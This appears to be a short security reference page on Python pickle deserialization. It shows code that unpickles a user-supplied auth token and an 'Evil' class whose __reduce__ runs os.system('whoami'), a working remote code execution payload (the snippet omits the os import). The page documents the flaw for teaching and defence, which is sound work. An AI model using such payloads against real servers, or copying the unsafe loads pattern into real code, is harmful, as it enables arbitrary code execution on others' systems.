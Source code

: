 # Python Deserialization

## Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## References

* [Exploiting misuse of Python's "pickle" - Mar 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python Pickle Injection - Apr 30, 2017](http://xhyumiracle.com/python-pickle-injection/)
